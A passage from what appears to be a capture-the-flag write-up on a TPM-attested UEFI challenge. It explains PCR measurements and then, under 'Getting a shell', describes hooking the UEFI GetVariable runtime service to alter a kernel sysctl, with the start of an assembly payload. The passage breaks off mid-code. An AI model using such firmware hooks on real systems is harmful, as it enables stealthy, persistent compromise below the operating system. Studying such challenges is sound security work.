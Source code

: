 In this challenge, PCRs 2,3,4,5,6,7,9 are measured, and the disk will only
decrypt if these PCRs are the expected value, same as when the disk was first
encrypted. And what I said earlier about putting a bootkit in EFI system
partition isn't possible because, well, the firmware will hash it and extend
PCR 4, and there's no undo-ing the extension to keep the hash matching expected
value. Initrd? Not only is it extended to PCR 9 by the kernel, it is also
extended to PCR 4 because it's part of the UKI image (a single UEFI executable
containing both the kernel and initrd). So practically, if the adversary changes
anything, the user will know because the disk will not unlock.

Normally, PCRs 0 and 1 are also measured, but honestly... there's barely a
point. If an adversary can compromise the firmware flash, they can also send
fake hashes of itself to TPM, since the firmware measures itself, rather than
being measured by something else, so there's nothing to "undo"... this is
described with some links in the hints, and I don't want to make the challenge
too tedious :)

Therefore to pwn a system that is TPM-attested, you really have to pwn the root
of trust, the firmware flash... and that's what I wanted from this challenge,
and it plays very nicely as a combination of harder versions of both previous
challenges.

Also, on a side note, the UEFI keys between the handout version and deployed
versions are different because I wanted to really stop unintendeds. I'm not sure
how they could do it (they would need to reverse some cryptographically-secure
algorithms), but there's too many components to this challenge and I wanted to
be extra safe.

## Getting a shell

As per the hints, I want to modify `/proc/sys/kernel/run_command` in UEFI. How
would I accomplish that? My immediate thought was to infect a function that
the OS might call... ideally at runtime so I don't need to deal with where the
sysctl would be located in memory (I can just look at the symbols of vmlinux)
to locate `sysctl_run_command`.

I had a hunch that UEFI Variable Services would be called by the OS. I mean,
the OS has to know the trusted keyring, and whether secure boot is enabled and
stuffs. They go through variable services, so I want to overwrite
`gRT->GetVariable` with a payload.

```asm
_start:
  mov (%rsp),%rax
  push %rsi
  push %rdi
  push %r12
  push %r13
  push %r14

  # R14 = gBS, R13 = gRT
  mov (LuaEfi_off_gRT-LuaEfi_off_retaddr)(%rax),%r12
  mov (LuaEfi_off_gBS-LuaEfi_off_retaddr)(%rax),%r13

  # orig_getvariable = GetVariable
  # I don't need to translate addresses with gRT->ConvertPointer or
  # use relative addresses... which is nice
  # This is due to arch/x86/platform/efi/efi_64.c efi_map_region:
  # > Make sure the 1:1 mappings are present as a catch-all for b0rked
  # > firmware which doesn't update all internal pointers after switching
  # > to virtual mode and would otherwise crap on us.
  mov RT_off_GetVariable(%r12),%rax
  mov %rax,orig_getvariable(%rip)

  # AllocatePool(EfiRuntimeServicesCode, payload_end-payload, &R14)
  mov $EfiRuntimeServicesCode,%rcx
```